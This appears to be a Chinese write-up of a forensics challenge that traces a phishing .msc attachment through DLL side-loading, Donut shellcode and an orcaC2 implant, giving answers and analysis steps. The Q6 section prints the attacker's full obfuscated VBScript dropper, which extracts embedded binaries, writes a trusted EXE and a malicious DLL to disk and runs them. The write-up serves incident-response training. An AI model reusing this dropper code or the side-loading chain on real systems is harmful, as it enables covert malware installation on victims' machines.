







```plain
1[✅]
bob@flycode.cn
b9cae449f959162f0297fa43b458bd66

2[✅]
关于组织参加第八届“强网杯”全国网络安全挑战赛的通知（11月2日至3日举行线上赛）.zip
f436b02020fa59f3f71e0b6dcac6c7d3

3[✅]
.msc
Microsoft Management Console

4[✅]
97

5[✅]
vbscript

6[✅]
函数名为 selectNodes
/MMC_ConsoleFile/BinaryStorage/Binary[@Name='CONSOLE_MENU']
69b23cfd967d07c39d1517e2a3c37e34

7[✅]
T1574

8[✅]
curl_easy_init

9[✅]
f21a9d8b1e5d

10[✅]
192.168.57.119:6000

11[✅]
AES 猜！

12[✅]
pJB`-v)t^ZAsP$|r
a524c43df3063c33cfd72e2bf1fd32f6

13[✅]
orcaC2
```

接下来是详细过程。

# Q1
:::danger
(1/13) 受害者的邮箱是什么? (注意:MD5(受害者邮箱),以cyberchef的为准) 示例:9b04d152845ec0a378394003c96da594

:::

直接用 outlook 打开邮件。



发件人：alice@flycode.cn


# Q2
:::danger
(2/13) 攻击者所投放的文件md5是什么? (注意:以md5sum的结果为准) 示例:33ec9f546665aec46947dca16646d48e

:::

把邮件的附件下载下来，用指令 md5sum 直接看即可。

f436b02020fa59f3f71e0b6dcac6c7d3


# Q3
:::danger
(3/13) 攻击者所使用的攻击载荷文件windows默认的打开方式的全称是什么? 示例:Microsoft Windows Based Scripting Host

:::

解开压缩包以后有一个 关于组织参加第八届“强网杯”全国网络安全挑战赛的通知（11月2日至3日举行线上赛）.msc，搜索 .msc 后缀即可。


Microsoft Management Console


# Q4
:::danger
(4/13) 攻击者所投放样本的初始执行语句在该攻击载荷文件的第几行? 示例:20

:::



在 92 行发现东西，交了发现不对，总共就 111 行，试到 97 行就对了。


# Q5
:::danger
(5/13) 经过初始执行后,攻击者所加载的第二部分载荷所使用的语言是什么? 示例:javascript

:::

92 行的东西中间部分 url decode 后可以得到一个脚本，丢给 ai，识别出来这是 vbscript。


# Q6
:::danger
(6/13) 攻击者所进行的第二部分载荷其将白EXE存在了什么地方? (注意:需要提供完成的解混淆后的第二部分载荷s*******s函数的参数) 提交需要MD5(参数内容) 以Cyberchef结果为准 示例:9b04d152845ec0a378394003c96da594

:::

```basic
<?xml version='1.0'?>
<stylesheet
xmlns="http://www.w3.org/1999/XSL/Transform" xmlns:ms="urn:schemas-microsoft-com:xslt"
xmlns:user="placeholder"
version="1.0">
<output method="text"/>
<ms:script implements-prefix="user" language="VBScript">
<![CDATA[
Dim mscLL
mscLL="_MSC"
For i=1 to Len(mscLL) Step 4
  oFmXCTg=oFmXCTg & ChrW(CLng("&"&Chr(72) & Mid(mscLL,i,4)))
Next
Set RTcxFmy=CreateObject(Chr(3440-3363)&Chr(105)&Chr(Int("99"))&"r"&Chr(Int("&H6f"))&Chr(&H73)&Chr(Int("111"))&Chr(102)&Chr(&H74)&Chr(46)&Chr(Int("88"))&Chr(77)&Chr(Int("&H4c"))&"D"&"O"&"M" )
RTcxFmy.Async=Chr(Int("&H46"))&Chr(Int("97"))&Chr(Int("108"))&"s"&Chr(Int("&H65"))
RTcxFmy.Load( oFmXCTg )
AJ8p
Function Xk7fbp8v(inp)
  Dim q4XPbvoV
  Dim HxWK
  Set q4XPbvoV=CreateObject(Chr(&H4d)&"S"&Chr(Int("&H58"))&Chr(Int("77"))&Chr(247988/3263)&Chr(&H32)&Chr(Int("&H2e"))&Chr(Int("68"))&Chr(Int("&H4f"))&Chr(Int("&H4d"))&Chr(&H44)&Chr(2427-2316)&"c"&Chr(Int("&H75"))&Chr(&H6d)&Chr(101)&Chr(&H6e)&Chr(-1790+1906))
  Set HxWK=q4XPbvoV.createElement(Chr(545-448))
  HxWK.DataType=Chr(98)&Chr(Int("105"))&Chr(110)&Chr(Int("46"))&Chr(98)&Chr(97)&Chr(115)&Chr(Int("101"))&Chr(Int("&H36"))&Chr(6238-6186)
  HxWK.Text=inp
  Xk7fbp8v=HxWK.nodeTypedValue
End Function
Function AJ8p()
  On Error Resume Next
  Dim AgUvcCuHzzbl
  Dim DfAV40y
  Dim gwqhhV
  Dim JJNe
  Dim Mw7U
  Dim O8B1OrkTW
  OMxa=Chr(Int("53"))&Chr(Int("&H31"))&Chr(&H37)&Chr(51)&Chr(52)&Chr(101)&Chr(56)&Chr(Int("&H65"))&Chr(&H37)&Chr(Int("101"))&Chr(&H63)&Chr(Int("&H34"))&Chr(&H37)&Chr(Int("101"))&Chr(&H63)&Chr(Int("55"))&Chr(53)&Chr(Int("51"))&Chr(Int("99"))&Chr(Int("50"))&Chr(&H35)&Chr(50)&Chr(&H61)&Chr(Int("48"))&Chr(Int("55"))&Chr(Int("&H62"))&Chr(&H32)&Chr(&H63)&Chr(Int("&H35"))&Chr(Int("49"))&Chr(54)&Chr(&H62)&Chr(53)&Chr(Int("99"))&Chr(&H34)&Chr(Int("97"))&Chr(&H32)&Chr(48)&Chr(49)&Chr(&H63)&Chr(Int("&H35"))&Chr(Int("102"))&Chr(51)&Chr(Int("97"))&Chr(Int("55"))&Chr(&H66)&Chr(53)&Chr(49)&Chr(Int("54"))&Chr(Int("&H37"))&Chr(Int("54"))&Chr(&H66)&Chr(Int("50"))&Chr(&H30)&Chr(&H31)&Chr(Int("&H64"))&Chr(53)&Chr(&H31)&Chr(Int("54"))&Chr(56)&Chr(Int("53"))&Chr(54)&Chr(&H66)&Chr(Int("&H64"))&Chr(55)&Chr(102)&Chr(Int("&H35"))&Chr(49)&Chr(Int("55"))&Chr(101)&Chr(Int("&H64"))&Chr(99)&Chr(Int("&H35"))&Chr(Int("98"))&Chr(Int("56"))&Chr(57)&Chr(&H35)&Chr(Int("49"))&Chr(&H36)&Chr(&H38)&Chr(Int("&H36"))&Chr(51)&Chr(Int("49"))&Chr(Int("49"))&Chr(Int("&H36"))&Chr(Int("50"))&Chr(Int("&H31"))&Chr(Int("56"))&Chr(56)&Chr(100)&Chr(Int("53"))&Chr(Int("98"))&Chr(&H37)&Chr(Int("54"))&Chr(Int("56"))&Chr(Int("52"))&Chr(Int("57"))&Chr(Int("&H30"))&Chr(Int("49"))&Chr(Int("97"))&Chr(Int("55"))&Chr(Int("&H37"))&Chr(101)&Chr(Int("&H35"))&Chr(Int("&H66"))&Chr(Int("&H66"))&Chr(&H30)&Chr(&H38)&Chr(48)&Chr(Int("48"))&Chr(Int("51"))&Chr(Int("&H31"))&Chr(&H30)&Chr(&H30)&Chr(51)&Chr(49)&Chr(Int("&H36"))&Chr(Int("&H37"))&Chr(&H30)&Chr(Int("56"))&Chr(Int("48"))&Chr(Int("&H30"))&Chr(Int("&H33"))&Chr(Int("50"))&Chr(54)&Chr(53)&Chr(Int("101"))&Chr(Int("53"))&Chr(&H38)&Chr(Int("&H31"))&Chr(Int("&H66"))&Chr(&H33)&Chr(Int("&H30"))&Chr(&H30)&Chr(Int("&H33"))&Chr(&H33)&Chr(Int("&H36"))&Chr(Int("&H35"))&Chr(Int("101"))&Chr(Int("53"))&Chr(&H34)&Chr(Int("101"))&Chr(51)&Chr(&H65)&Chr(&H38)&Chr(Int("&H38"))&Chr(Int("52"))&Chr(Int("99"))&Chr(55)&Chr(Int("&H65"))&Chr(&H62)&Chr(Int("&H66"))&Chr(&H34)&Chr(Int("101"))&Chr(Int("48"))&Chr(&H61)&Chr(56)&Chr(100)&Chr(Int("53"))&Chr(98)&Chr(Int("&H66"))&Chr(Int("102"))&Chr(Int("48"))&Chr(&H39)&Chr(48)&Chr(Int("&H30"))&Chr(Int("50"))&Chr(101)&Chr(48)&Chr(Int("48"))&Chr(Int("55"))&Chr(48)&Chr(&H30)&Chr(&H30)&Chr(Int("54"))&Chr(&H34)&Chr(48)&Chr(Int("48"))&Chr(54)&Chr(&H36)
  Set AgUvcCuHzzbl=CreateObject(Chr(Int("&H57"))&Chr(537-454)&Chr(99)&Chr(3218-3104)&Chr(Int("&H69"))&Chr(Int("&H70"))&Chr(-3081+3197)&Chr(&H2e)&Chr(&H53)&Chr(104)&"e"&Chr(Int("108"))&"l")
  Set DfAV40y=CreateObject(Chr(Int("83"))&Chr(6597-6498)&Chr(114)&Chr(Int("&H69"))&"p"&Chr(Int("116"))&Chr(2693-2588)&"n"&Chr(Int("103"))&Chr(125212/2722)&Chr(Int("&H46"))&Chr(Int("105"))&Chr(108)&Chr(101)&Chr(22908/276)&"y"&"s"&Chr(4733-4617)&"e"&Chr(Int("109"))&Chr(&H4f)&Chr(Int("98"))&Chr(&H6a)&Chr(101)&Chr(99)&Chr(Int("116")))
  O8B1OrkTW=AgUvcCuHzzbl.ExpandEnvironmentStrings(Chr(37)&Chr(Int("&H50"))&Chr(Int("&H72"))&Chr(Int("111"))&Chr(Int("&H67"))&Chr(114)&Chr(Int("&H61"))&Chr(109)&"F"&Chr(Int("&H69"))&"l"&"e"&Chr(-1605+1720)&Chr(Int("37")))
  P59b6scR2TD9=O8B1OrkTW & Chr(2088-1996)&"C"&Chr(Int("108"))&Chr(270729/2439)&Chr(Int("117"))&"d"&Chr(Int("102"))&Chr(108)&Chr(97)&Chr(Int("114"))&Chr(&H65)
  DfAV40y.CreateFolder(P59b6scR2TD9)
  gwqhhV=P59b6scR2TD9 & Chr(92) & Chr(Int("71"))&Chr(85)&Chr(Int("&H50"))&Chr(Int("&H2e"))&Chr(&H65)&Chr(&H78)&Chr(1805-1704)
  JJNe=P59b6scR2TD9 & Chr(92) & Chr(Int("&H6c"))&Chr(Int("&H69"))&Chr(98)&Chr(Int("&H63"))&Chr(117)&Chr(&H72)&Chr(Int("&H6c"))&Chr(&H2e)&Chr(&H64)&Chr(108)&Chr(Int("108"))
  For i=1 to Len(OMxa) Step 4
    FRURX=FRURX & ChrW(CLng("&"&Chr(72) & Mid(OMxa,i,4)))
  Next
  Mw7U=DfAV40y.GetSpecialFolder(2) & Chr(92) & FRURX
  Set aZPHxtz4=RTcxFmy.selectNodes( Chr(29281/623)&Chr(Int("&H4d"))&Chr(77)&Chr(1587-1520)&Chr(Int("95"))&Chr(67)&Chr(Int("&H6f"))&"n"&Chr(Int("115"))&Chr(Int("&H6f"))&Chr(108)&Chr(Int("&H65"))&Chr(70)&Chr(&H69)&Chr(108)&Chr(101)&Chr(47)&"B"&"i"&Chr(6710-6600)&Chr(&H61)&Chr(Int("114"))&Chr(Int("121"))&Chr(&H53)&Chr(116)&"o"&Chr(221844/1946)&Chr(97)&Chr(Int("103"))&Chr(Int("&H65"))&Chr(4621-4574)&Chr(&H42)&Chr(105)&Chr(Int("110"))&Chr(&H61)&Chr(8019-7905)&"y"&Chr(Int("&H5b"))&Chr(64)&Chr(Int("78"))&Chr(&H61)&Chr(Int("&H6d"))&Chr(Int("&H65"))&Chr(&H3d)&Chr(Int("&H27"))&Chr(&H43)&Chr(79)&Chr(Int("&H4e"))&Chr(&H53)&Chr(8290-8211)&Chr(Int("76"))&Chr(6677-6608)&Chr(&H5f)&Chr(Int("84"))&Chr(1018-936)&Chr(&H45)&Chr(&H45)&Chr(Int("39"))&Chr(&H5d) ) 
  rqsgO2mBfu=aZPHxtz4(0).text
  UoLAunW=Xk7fbp8v(rqsgO2mBfu)
  Dim jXnaWeLQ12
  Set jXnaWeLQ12=CreateObject(Chr(65)&Chr(&H44)&Chr(Int("&H4f"))&Chr(68)&Chr(4574-4508)&Chr(46)&"S"&Chr(Int("&H74"))&Chr(6960-6846)&Chr(Int("101"))&Chr(Int("&H61"))&Chr(Int("109")))
  jXnaWeLQ12.Type=1
  jXnaWeLQ12.Open
  jXnaWeLQ12.Write UoLAunW
  jXnaWeLQ12.SaveToFile Mw7U,2
  AgUvcCuHzzbl.run """" & Mw7U & """",1,false
  Set aZPHxtz4=RTcxFmy.selectNodes( Chr(47)&Chr(&H4d)&Chr(77)&"C"&Chr(95)&Chr(Int("&H43"))&"o"&Chr(Int("110"))&Chr(&H73)&Chr(Int("111"))&"l"&Chr(&H65)&Chr(Int("&H46"))&"i"&Chr(5094-4986)&Chr(101)&Chr(Int("47"))&Chr(331-265)&Chr(105)&Chr(Int("&H6e"))&Chr(Int("&H61"))&Chr(&H72)&Chr(Int("121"))&Chr(&H53)&Chr(116)&"o"&"r"&Chr(-1088+1185)&Chr(2152-2049)&Chr(266943/2643)&Chr(Int("47"))&Chr(-385+451)&Chr(105)&Chr(Int("&H6e"))&Chr(Int("&H61"))&Chr(114)&Chr(Int("&H79"))&Chr(91)&"@"&Chr(Int("78"))&Chr(Int("97"))&Chr(&H6d)&Chr(&H65)&Chr(Int("&H3d"))&Chr(3877-3838)&Chr(Int("67"))&Chr(&H4f)&Chr(78)&Chr(83)&Chr(79)&Chr(Int("&H4c"))&Chr(Int("69"))&Chr(419-324)&"M"&Chr(Int("&H45"))&Chr(Int("78"))&"U"&Chr(Int("39"))&Chr(Int("&H5d")) ) 
  Ze1C=aZPHxtz4(0).text
  Set aZPHxtz4 = RTcxFmy.selectNodes( Chr(&H2f)&Chr(-1536+1613)&Chr(4928/64)&Chr(67)&Chr(345-250)&Chr(Int("67"))&Chr(111)&"n"&Chr(&H73)&Chr(Int("&H6f"))&Chr(&H6c)&Chr(Int("101"))&Chr(145110/2073)&Chr(&H69)&Chr(108)&Chr(Int("101"))&Chr(Int("&H2f"))&Chr(66)&Chr(&H69)&Chr(1514-1404)&Chr(Int("97"))&Chr(Int("&H72"))&Chr(Int("121"))&Chr(83)&Chr(212744/1834)&Chr(&H6f)&Chr(Int("114"))&Chr(Int("97"))&Chr(&H67)&Chr(-749+850)&Chr(-3015+3062)&Chr(Int("&H42"))&"i"&Chr(&H6e)&Chr(Int("&H61"))&Chr(114)&Chr(Int("&H79"))&Chr(Int("91"))&Chr(&H40)&Chr(Int("&H4e"))&Chr(&H61)&Chr(109)&Chr(101)&Chr(&H3d)&Chr(-548+587)&Chr(67)&Chr(Int("&H4f"))&Chr(3379-3301)&"S"&"O"&Chr(-1145+1221)&Chr(Int("&H45"))&"_"&Chr(-626+706)&Chr(Int("65"))&Chr(78)&"E"&Chr(39)&Chr(Int("93")) ) 
  JozMh9jg=aZPHxtz4(0).text
  AnZUOdqFuMEw=Xk7fbp8v(Ze1C)
  s4fr2y4Q7lvQ=Xk7fbp8v(JozMh9jg)
  Dim cHh5wARUext
  Set cHh5wARUext=CreateObject(Chr(65)&Chr(&H44)&Chr(Int("&H4f"))&Chr(68)&Chr(4574-4508)&Chr(46)&"S"&Chr(Int("&H74"))&Chr(6960-6846)&Chr(Int("101"))&Chr(Int("&H61"))&Chr(Int("109")))
  cHh5wARUext.Type=1
  cHh5wARUext.Open 
  cHh5wARUext.Write AnZUOdqFuMEw
  cHh5wARUext.SaveToFile gwqhhV,2
  Dim BKzG1ldRw7
  Set BKzG1ldRw7=CreateObject(Chr(65)&Chr(&H44)&Chr(Int("&H4f"))&Chr(68)&Chr(4574-4508)&Chr(46)&"S"&Chr(Int("&H74"))&Chr(6960-6846)&Chr(Int("101"))&Chr(Int("&H61"))&Chr(Int("109")))
  BKzG1ldRw7.Type=1
  BKzG1ldRw7.Open 
  BKzG1ldRw7.Write s4fr2y4Q7lvQ
  BKzG1ldRw7.SaveToFile JJNe,2
  AgUvcCuHzzbl.run """" & gwqhhV & """" & Chr(Int("32"))&Chr(&H74)&Chr(&H20)&Chr(&H38)&"."&Chr(56)&Chr(Int("46"))&Chr(Int("&H38"))&"."&Chr(-129+185),0,false
End Function
Public Function i9Vu0(ByVal Value,ByVal Shift)
  i9Vu0=Value
  If Shift>0 Then
    If Value>0 Then
      i9Vu0=Int(i9Vu0/(2^Shift))
    Else
      If Shift>31 Then
        i9Vu0=0
      Else
        i9Vu0=i9Vu0 And &H7FFFFFFF
        i9Vu0=Int(i9Vu0/(2^Shift))
        i9Vu0=i9Vu0 Or 2^(31-Shift)
      End If
    End If
  End If
End Function
Public Function PIvwo4QDjBC(ByVal Value,ByVal Shift)
  PIvwo4QDjBC=Value
  If Shift>0 Then
    Dim i 
    Dim m 
    For i=1 To Shift
      m=PIvwo4QDjBC And &H40000000
      PIvwo4QDjBC=(PIvwo4QDjBC And &H3FFFFFFF)*2
      If m<>0 Then
        PIvwo4QDjBC=PIvwo4QDjBC Or &H80000000
      End If
    Next
  End If
End Function
Public Function eUBp1LoLYEMy(ByVal num)
  Const rkLx=5570645
  Const beweT2U=52428
  Const d1=7
  Const d2=14
  Dim t,u,out 
  t=(num Xor i9Vu0(num,d2)) And beweT2U
  u=num Xor t Xor PIvwo4QDjBC(t,d2)
  t=(u Xor i9Vu0(u,d1)) And rkLx
  out=(u Xor t Xor PIvwo4QDjBC(t,d1))
  eUBp1LoLYEMy=out
End Function
Public Function FTKaWvcYaGWt(ByRef MiCzi9())
  Dim i,fr,upJNNa,raw 
  Dim a,b,c,d 
  Dim YBx4PZLTHSQ1 
  Dim EJSi8qJd0() 
  Dim a2,b2 
  YBx4PZLTHSQ1=""
  For i=0 To (UBound(MiCzi9)/4+1)
    fr=i*4
    If fr>UBound(MiCzi9) Then
      Exit For
    End If
    upJNNa=0
    upJNNa=upJNNa Or PIvwo4QDjBC(MiCzi9(fr+3),24)
    upJNNa=upJNNa Or PIvwo4QDjBC(MiCzi9(fr+2),16)
    upJNNa=upJNNa Or PIvwo4QDjBC(MiCzi9(fr+1),8)
    upJNNa=upJNNa Or MiCzi9(fr+0)
    raw=eUBp1LoLYEMy(upJNNa)
    a=Chr(i9Vu0((raw And &HFF000000),24))
                                        b=Chr(i9Vu0((raw And 16711680),16))
                                        c=Chr(i9Vu0((raw And 65280),8))
                                        d=Chr(i9Vu0((raw And 255),0))
                                        YBx4PZLTHSQ1=YBx4PZLTHSQ1+d+c+b+a
                                    Next
                                    FTKaWvcYaGWt=YBx4PZLTHSQ1
                                End Function
                                Public Function t4zFxxgg22(MiCzi9)
                                    Dim CYhV8N(),Liefs(),arrayByte3(255)
                                    Dim Rp7jaY2jOqr(63),arrayLong5(63) 
                                    Dim Mbt0mzk6(63),NALQp0Gu3
                                    Dim b7Z9n8,iter,VKkZEf,ZyvKLLyyHHD
                                    Dim YBx4PZLTHSQ1 
                                    MiCzi9=Replace(MiCzi9,vbCr,vbNullString)
                                    MiCzi9=Replace(MiCzi9,vbLf,vbNullString)
                                    ZyvKLLyyHHD=Len(MiCzi9) Mod 4
                                    If InStrRev(MiCzi9,"==") Then
                                        b7Z9n8=2
                                    ElseIf InStrRev(MiCzi9,""+"=") Then
                                        b7Z9n8=1
                                    End If
                                    For ZyvKLLyyHHD=0 To 255
                                    Select Case ZyvKLLyyHHD
                                    Case 65,66,67,68,69,70,71,72,73,74,75,76,77,78,79,80,81,82,83,84,85,86,87,88,89,90
                                        arrayByte3(ZyvKLLyyHHD)=ZyvKLLyyHHD-65
                                    Case 97,98,99,100,101,102,103,104,105,106,107,108,109,110,111,112,113,114,115,116,117,118,119,120,121,122
                                        arrayByte3(ZyvKLLyyHHD)=ZyvKLLyyHHD-71
                                    Case 48,49,50,51,52,53,54,55,56,57
                                        arrayByte3(ZyvKLLyyHHD)=ZyvKLLyyHHD+4
                                    Case 43
                                        arrayByte3(ZyvKLLyyHHD)=62
                                    Case 47
                                        arrayByte3(ZyvKLLyyHHD)=63
                                    Case Else
                                    End Select
                                Next
                                For ZyvKLLyyHHD=0 To 63
                                Rp7jaY2jOqr(ZyvKLLyyHHD)=ZyvKLLyyHHD*64
                                arrayLong5(ZyvKLLyyHHD)=ZyvKLLyyHHD*4096
                                Mbt0mzk6(ZyvKLLyyHHD)=ZyvKLLyyHHD*262144
                            Next
                            Liefs=StrConv(MiCzi9,vbFromUnicode)
                            ReDim CYhV8N((((UBound(Liefs)+1)\4)*3)-1)
                            For iter=0 To UBound(Liefs) Step 4
                            NALQp0Gu3=Mbt0mzk6(arrayByte3(Liefs(iter)))+arrayLong5(arrayByte3(Liefs(iter+1)))+Rp7jaY2jOqr(arrayByte3(Liefs(iter+2)))+arrayByte3(Liefs(iter+3))
                            ZyvKLLyyHHD=NALQp0Gu3 And 16711680
                            CYhV8N(VKkZEf)=ZyvKLLyyHHD\65536
                            ZyvKLLyyHHD=NALQp0Gu3 And 65280
                            CYhV8N(VKkZEf+1)=ZyvKLLyyHHD\256
                            CYhV8N(VKkZEf+2)=NALQp0Gu3 And 255
                            VKkZEf=VKkZEf+3
                        Next
                        YBx4PZLTHSQ1=StrConv(CYhV8N,vbUnicode)
                        If b7Z9n8 Then YBx4PZLTHSQ1=Left(YBx4PZLTHSQ1,Len(YBx4PZLTHSQ1)-b7Z9n8)
                            t4zFxxgg22=FTKaWvcYaGWt(StrConv(YBx4PZLTHSQ1,vbFromUnicode))
                            t4zFxxgg22=qY7AOEpU1wn(t4zFxxgg22,"~")
                        End Function
                        Function qY7AOEpU1wn(str,chars)
                            Dim fqX3dbudmU
                            Dim XVZECKbx()
                            XVZECKbx=Split(str,chars)
                            fqX3dbudmU=UBound(XVZECKbx,1)
                            If fqX3dbudmU<>0 Then
                                str=Left(str,Len(str)-fqX3dbudmU)
                            End If
                            qY7AOEpU1wn=str
                        End Function
                        ]]></ms:script>
                </stylesheet>
```

提示说有个 s****s 函数，只有 selectNodes 符合。

把混淆丢给 ai 解一下，出来 3 个路径，只有 /MMC_ConsoleFile/BinaryStorage/Binary[@Name='CONSOLE_MENU'] 是对的。


# Q7
:::danger
(7/13) 攻击者使用的这个白EXE加载黑DLL的手法所对应的MITRE ATT&CK ID是什么? (注意:请注意示例的提示提交大类即可不需要细化到分项) 示例: T1000

:::

直接找。



[Hijack Execution Flow: DLL Side-Loading, Sub-technique T1574.002 - Enterprise | MITRE ATT&CK®](https://attack.mitre.org/techniques/T1574/002/)


# Q8
:::danger
(8/13) 攻击者所使用的黑DLL劫持了原始DLL的哪个函数? 示例: main

:::

丢入 ida 去看符号表，不太好找，挨个试试就找到了。

curl_easy_init


# Q9
:::danger
(9/13) 攻击者所使用的黑DLL解密下一阶段载荷所使用的Key是什么? (注意:请提交一段小写的十六进制字符串) 示例:1122334455

:::

根据上一题找到的劫持函数，查看 curl_easy_init 调用的函数，就是加密函数。



v41，v42 就是 key，注意小端序。

f21a9d8b1e5d


# Q10
:::danger
(10/13) 攻击者所使用的下一阶段载荷的回连C2是什么? (注意:需要提供ip地址:端口的形式) 示例:127.0.0.1:5100

:::

丢云沙箱看一下，直接就能找到。

192.168.57.119:6000


# Q11
:::danger
(11/13) 攻击者所使用最终阶段载荷所使用的加密算法是什么? 示例:DES

:::

蒙一下，AES。


# Q12
:::danger
(12/13) 攻击者所使用最终阶段载荷所使用的密钥的MD5是什么? (注意:MD5(密钥内容),以cyberchef的为准) 示例:9b04d152845ec0a378394003c96da594

:::

分析流量包，找到一个 bin 文件，把它导出。

丢云沙箱扫一下，发现是恶意木马，同时识别出了他是 shellcode 二进制文件。





通过自解密释放 exe。


同时还识别出是 donut shellcode，可以在 github 找到解这种 shellcode 的工具。

[https://github.com/listinvest/undonut](https://github.com/listinvest/undonut)

```shell
❯ ./undonut -shellcode shellcode.bin -recover output.exe
Donut Instance:
 [*] Size: 21605248
 [*] Instance Master Key: [106 123 1 253 124 211 224 246 85 72 68 181 150 234 191 81]
 [*] Instance Nonce: [14 223 234 227 208 91 115 20 148 245 75 148 102 239 181 86]
 [*] IV: ca1d8b3e00000000
 [*] Exit Option: EXIT_OPTION_THREAD
 [*] Entropy: ENTROPY_DEFAULT
 [*] DLLs: ole32;oleaut32;wininet;mscoree;shell32
 [*] AMSI Bypass: BYPASS_CONTINUE
 [*] Instance Type: INSTANCE_EMBED
 [*] Module Master Key: [84 213 136 114 177 85 174 57 221 196 96 181 8 88 93 206]
 [*] Module Nonce: [147 238 99 97 80 90 13 196 195 199 129 79 5 157 156 160]
 [*] Module Type: MODULE_EXE
 [*] Module Compression: COMPRESS_NONE

 
```

IDA 里面找长度为 16 的字符串，然后交叉引用，发现有个字符串被引用了很多次。

找到 pJB`-v)t^ZAsP$|r。


# Q13
:::danger
(13/13) 攻击者使用了什么家族的C2? 示例:PoshC2

:::

找不到，直接爆破出来是 orcaC2。


# Fin.


